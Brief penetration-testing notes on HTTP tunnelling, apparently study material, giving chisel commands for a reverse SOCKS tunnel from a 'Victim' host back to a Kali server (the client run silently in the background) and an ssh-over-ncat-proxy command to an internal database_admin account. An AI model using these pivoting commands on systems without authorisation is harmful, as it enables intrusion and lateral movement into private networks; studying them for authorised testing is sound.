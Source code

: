 # Tunnelling

# HTTP Tunnelling

## `chisel`
- Server: Kali (TCP/1080)
- Client: Victim
Start the server:
```
chisel server --port 8080 --reverse
```
Bind the client:
```
chisel client <srv-ip>:<srv-port> R:socks > /dev/null 2>&1 &
```
### ncat
```
sudo apt install ncat
```
```
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.232.215
```

# DNS Tunnelling
